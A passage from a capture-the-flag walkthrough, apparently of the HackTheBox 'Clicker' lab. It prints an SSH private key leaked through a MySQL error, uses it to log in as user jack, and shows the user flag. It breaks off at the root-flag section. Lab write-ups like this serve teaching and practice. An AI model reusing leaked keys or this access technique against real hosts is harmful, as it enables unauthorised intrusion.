 ```
EAAAGBALOHkGlh3uOYhkongx262gGIEHTMJTBj7edCpjFAL1oAFds5T/P9WCf7Us4KEfRZ
KPCNVKS5xwi89hM7G/zKywnvJxuU5Wya60OB3Kp0uEyjew2e11tG7qd2sstZAAGfVKLenq
f3pDPBPu/9/VWeX3tRcGY+IkSiPoPwVUBXJbICtNgefeBpDs99z/2c7Xto1U4Jst/obTxO
TMt9YtpV4el1n3qYgToxvpkA4NjskgKYWztUmzIrKMD9WknsSjIeyK+iJT7p7sN5f5bsr0
RgzfH8rpk3iF1QHT3zqjKkzlRAqO4QKGPrmFin4h8Tl+H6Pv3zcHXH3LQVJqa+TccdBgh9
cC5x7G8fv6AZD88bs3fgXBjWaexT/HJ/nRBc9rcvC7NDK/l1uaH4rxMK9/nt9DoLaS+kIT
tni4mVayFzh4j81uPXpr+MYbqDxdxP+QgOmpHkG2xgKaU4vhARvS4a9OHPRNrgkiz4mah4
lYgK3FG218VjF9jT0icw7EOMXmKhbQAAAAMBAAEAAAGACLYPP83L7uc7vOVl609hvKlJgy
FUvKBcrtgBEGq44XkXlmeVhZVJbcc4IV9Dt8OLxQBWlxecnMPufMhld0Kvz2+XSjNTXo21
1LS8bFj1iGJ2WhbXBErQ0bdkvZE3+twsUyrSL/xIL2q1DxgX7sucfnNZLNze9M2akvRabq
DL53NSKxpvqS/v1AmaygePTmmrz/mQgGTayA5Uk5sl7Mo2CAn5Dw3PV2+KfAoa3uu7ufyC
kMJuNWT6uUKR2vxoLT5pEZKlg8Qmw2HHZxa6wUlpTSRMgO+R+xEQsemUFy0vCh4TyezD3i
SlyE8yMm8gdIgYJB+FP5m4eUyGTjTE4+lhXOKgEGPcw9+MK7Li05Kbgsv/ZwuLiI8UNAhc
9vgmEfs/hoiZPX6fpG+u4L82oKJuIbxF/I2Q2YBNIP9O9qVLdxUniEUCNl3BOAk/8H6usN
9pLG5kIalMYSl6lMnfethUiUrTZzATPYT1xZzQCdJ+qagLrl7O33aez3B/OAUrYmsBAAAA
wQDB7xyKB85+On0U9Qk1jS85dNaEeSBGb7Yp4e/oQGiHquN/xBgaZzYTEO7WQtrfmZMM4s
SXT5qO0J8TBwjmkuzit3/BjrdOAs8n2Lq8J0sPcltsMnoJuZ3Svqclqi8WuttSgKPyhC4s
FQsp6ggRGCP64C8N854//KuxhTh5UXHmD7+teKGdbi9MjfDygwk+gQ33YIr2KczVgdltwW
EhA8zfl5uimjsT31lks3jwk/I8CupZGrVvXmyEzBYZBegl3W4AAADBAO19sPL8ZYYo1n2j
rghoSkgwA8kZJRy6BIyRFRUODsYBlK0ItFnriPgWSE2b3iHo7cuujCDju0yIIfF2QG87Hh
zXj1wghocEMzZ3ELIlkIDY8BtrewjC3CFyeIY3XKCY5AgzE2ygRGvEL+YFLezLqhJseV8j
3kOhQ3D6boridyK3T66YGzJsdpEvWTpbvve3FM5pIWmA5LUXyihP2F7fs2E5aDBUuLJeyi
F0YCoftLetCA/kiVtqlT0trgO8Yh+78QAAAMEAwYV0GjQs3AYNLMGccWlVFoLLPKGItynr
Xxa/j3qOBZ+HiMsXtZdpdrV26N43CmiHRue4SWG1m/Vh3zezxNymsQrp6sv96vsFjM7gAI
JJK+Ds3zu2NNNmQ82gPwc/wNM3TatS/Oe4loqHg3nDn5CEbPtgc8wkxheKARAz0SbztcJC
LsOxRu230Ti7tRBOtV153KHlE4Bu7G/d028dbQhtfMXJLu96W1l3Fr98pDxDSFnig2HMIi
lL4gSjpD/FjWk9AAAADGphY2tAY2xpY2tlcgECAwQFBg==
-----END OPENSSH PRIVATE KEY---
--------------

ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '-----BEGIN OPENSSH PRIVATE KEY---
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAA' at line 1
```

I put the key into `jack.key` on my local machine and ran the following:

```
$ chmod 600 jack.key
$ ssh jack@clicker.htb -i jack.key
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-84-generic x86_64)
...
-bash-5.1$ cat user.txt
52451aacf5ceeb84caf5355fe3d2d30f
```

And there's our user flag! <mark>52451aacf5ceeb84caf5355fe3d2d30f</mark>

## Root Flag

Running `sudo -l` gives us some entries:

